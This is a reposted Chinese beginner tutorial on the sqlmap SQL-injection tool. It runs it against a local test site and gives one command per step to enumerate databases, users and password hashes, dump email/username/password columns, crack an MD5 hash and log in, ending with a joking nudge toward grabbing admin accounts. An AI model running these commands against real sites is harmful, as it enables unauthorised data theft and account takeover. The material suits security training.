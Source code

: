 ```yaml
---
layout: post
title: 渗透测试工具sqlmap基础教程
excerpt: 对于网络安全人员来说，掌握渗透工具的使用方法是一项必备的技能。然而，一个没有师傅带领的小白在刚开始学习时，并不知道该如何入手进行渗透学习，所以本文旨在帮助这些小白入门。
---
```


本文仅献给想学习渗透测试的sqlmap小白，大牛请绕过。

对于网络安全人员来说，掌握渗透工具的使用方法是一项必备的技能。然而，一个没有师傅带领的小白在刚开始学习时，并不知道该如何入手进行渗透学习，所以本文旨在帮助这些小白入门。

sqlmap是一款非常强大的开源sql自动化注入工具，可以用来检测和利用sql注入漏洞。它由python语言开发而成，因此运行需要安装python环境。

既然本文是基础教程，以下只写工具的基本使用方法。

本教程为sqlmap具体应用案例，如需了解更多sqlmap资料可以访问官方[http://sqlmap.org](http://sqlmap.org/) ，或者乌云知识库[http://drops.wooyun.org/tips/401](http://drops.wooyun.org/tips/401) 和 [http://drops.wooyun.org/tips/143](http://drops.wooyun.org/tips/143) 。

测试环境：本地搭建的具有sql注入点的网站 http://192.168.1.150

注意：sqlmap只是用来检测和利用sql注入点的，并不能扫描出网站有哪些漏洞，使用前请先使用扫描工具扫出sql注入点。

教程开始：

# 一、检测注入点是否可用

```
python sqlmap.py -u "http://192.168.1.150/products.asp?id=134"
```

参数：

-u：指定注入点url

结果：

![](http://img.blog.csdn.net/20141112094430265?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvemd5dWxvbmdmZWk=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast)

![](http://img.blog.csdn.net/20141112094424665?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvemd5dWxvbmdmZWk=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast)

注入结果展示：

（1）注入参数id为GET注入，注入类型有四种分别为：boolean-based blind、error-based、stacked queries、inline query。

（2）web服务器系统为windows 2003 or XP

（3）web应用程序技术为：ASP.NET, Microsoft IIS 6.0

（4）数据库类型为：SQLSERVER 2000

其中图一有若干询问语句，需要用户输入[Y/N]，如果你懒得输入或者不懂怎么输入可以让程序自动输入，只需添加一个参数即可，命令如下：

```
python sqlmap.py -u "http://192.168.1.150/products.asp?id=134" --batch
```

# 二、暴库

一条命令即可曝出该sqlserver中所有数据库名称，命令如下：

```
python sqlmap.py -u "http://192.168.1.150/products.asp?id=134" --dbs
```

参数：

--dbs：dbs前面有两条杠，请看清楚。

结果：

![](http://img.blog.csdn.net/20141112095337826?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvemd5dWxvbmdmZWk=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast)

结果显示该sqlserver中共包含7个可用的数据库。

# 三、web当前使用的数据库

```
python sqlmap.py -u "http://192.168.1.150/products.asp?id=134" --current-db
```

![](http://img.blog.csdn.net/20141112095451193?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvemd5dWxvbmdmZWk=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast)

# 四、web数据库使用账户

```
python sqlmap.py -u "http://192.168.1.150/products.asp?id=134" --current-user
```

![](http://img.blog.csdn.net/20141112095616026?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvemd5dWxvbmdmZWk=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast)

# 五、列出sqlserver所有用户

```
python sqlmap.py -u "http://192.168.1.150/products.asp?id=134" --users
```

![](http://img.blog.csdn.net/20141112095721703?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvemd5dWxvbmdmZWk=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast)

# 六、数据库账户与密码

```
python sqlmap.py -u "http://192.168.1.150/products.asp?id=134" --passwords
```

![](http://img.blog.csdn.net/20141112095814696?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvemd5dWxvbmdmZWk=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast)

# 七、列出数据库中的表

```
python sqlmap.py -u "http://192.168.1.150/products.asp?id=134" -D tourdata --tables
```

参数：

-D：指定数据库名称

--tables：列出表

结果：

![](http://img.blog.csdn.net/20141112095947906?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvemd5dWxvbmdmZWk=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast)

结果体现共列出了34张表。

# 八、列出表中字段

```
python sqlmap.py -u "http://192.168.1.150/products.asp?id=134" -D tourdata -T userb --columns
```

参数：

-D：指定数据库名称

-T：指定要列出字段的表

--columns：指定列出字段

结果：

![](http://img.blog.csdn.net/20141112100059292?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvemd5dWxvbmdmZWk=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast)

结果显示该userb表中包含了23条字段。

# 九、暴字段内容

```
python sqlmap.py -u "http://192.168.1.150/products.asp?id=134" -D tourdata -T userb -C "email,Username,userpassword" --dump
```

参数：

-C ：指定要暴的字段

--dump：将结果导出

结果：

![](http://img.blog.csdn.net/20141112100336680?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvemd5dWxvbmdmZWk=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast)

如果字段内容太多，需要花费很多时间。可以指定导出特定范围的字段内容，命令如下：

```
python sqlmap.py -u "http://192.168.1.150/products.asp?id=134" -D tourdata -T userb -C "email,Username,userpassword" --start 1 --stop 10 --dump
```

参数：

--start：指定开始的行

--stop：指定结束的行

此条命令的含义为：导出数据库tourdata中的表userb中的字段(email,Username,userpassword)中的第1到第10行的数据内容。

结果如下：

![](http://img.blog.csdn.net/20141112100610793?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvemd5dWxvbmdmZWk=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast)

# 十、验证结果

通过上图结果看到其中的一个用户信息为：

email：123456@qq.com

username: 1.asp

password: 49ba59abbe56e057

通过md5解密，得到该hash的原文密码为：123456

拿到账号密码我们来测试是否可以登录，登录结果如下：

![](http://img.blog.csdn.net/20141112101002734?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvemd5dWxvbmdmZWk=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast)

验证成功！

当然我们只是拿到普通会员账号进行登录，你也可以拿到管理员账号进行登录，后面的事情自己发挥吧，嘿嘿！

转自：http://blog.csdn.net/zgyulongfei/article/details/41017493